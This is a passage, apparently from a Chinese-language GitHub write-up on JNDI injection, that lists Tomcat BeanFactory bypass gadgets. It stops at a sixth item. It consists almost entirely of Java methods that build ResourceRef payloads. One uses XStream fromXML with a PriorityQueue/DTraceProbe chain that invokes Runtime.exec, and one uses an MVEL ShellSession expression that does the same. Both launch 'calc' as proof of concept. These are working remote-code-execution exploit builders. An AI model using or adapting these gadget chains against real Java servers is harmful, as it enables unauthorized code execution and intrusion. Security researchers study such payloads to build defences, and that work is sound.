     ```java
    private static ResourceRef tomcat_xstream(){
       ResourceRef ref = new ResourceRef("com.thoughtworks.xstream.XStream", null, "", "",
               true, "org.apache.naming.factory.BeanFactory", null);
       String xml = "<java.util.PriorityQueue serialization='custom'>\n" +
               "  <unserializable-parents/>\n" +
               "  <java.util.PriorityQueue>\n" +
               "    <default>\n" +
               "      <size>2</size>\n" +
               "    </default>\n" +
               "    <int>3</int>\n" +
               "    <dynamic-proxy>\n" +
               "      <interface>java.lang.Comparable</interface>\n" +
               "      <handler class='sun.tracing.NullProvider'>\n" +
               "        <active>true</active>\n" +
               "        <providerType>java.lang.Comparable</providerType>\n" +
               "        <probes>\n" +
               "          <entry>\n" +
               "            <method>\n" +
               "              <class>java.lang.Comparable</class>\n" +
               "              <name>compareTo</name>\n" +
               "              <parameter-types>\n" +
               "                <class>java.lang.Object</class>\n" +
               "              </parameter-types>\n" +
               "            </method>\n" +
               "            <sun.tracing.dtrace.DTraceProbe>\n" +
               "              <proxy class='java.lang.Runtime'/>\n" +
               "              <implementing__method>\n" +
               "                <class>java.lang.Runtime</class>\n" +
               "                <name>exec</name>\n" +
               "                <parameter-types>\n" +
               "                  <class>java.lang.String</class>\n" +
               "                </parameter-types>\n" +
               "              </implementing__method>\n" +
               "            </sun.tracing.dtrace.DTraceProbe>\n" +
               "          </entry>\n" +
               "        </probes>\n" +
               "      </handler>\n" +
               "    </dynamic-proxy>\n" +
               "    <string>calc</string>\n" +
               "  </java.util.PriorityQueue>\n" +
               "</java.util.PriorityQueue>";
       ref.add(new StringRefAddr("forceString", "a=fromXML"));
       ref.add(new StringRefAddr("a", xml));
       return ref;
    }
    ```
5. org.mvel2.sh.ShellSession#exec
    
    解析MVEL表达式
    
    ```java
    private static ResourceRef tomcat_MVEL(){
       ResourceRef ref = new ResourceRef("org.mvel2.sh.ShellSession", null, "", "",
               true, "org.apache.naming.factory.BeanFactory", null);
       ref.add(new StringRefAddr("forceString", "a=exec"));
       ref.add(new StringRefAddr("a",
               "push Runtime.getRuntime().exec('calc');"));
       return ref;
    }
    ```
6. com.sun.glass.utils.NativeLibLoader#loadLibrary
    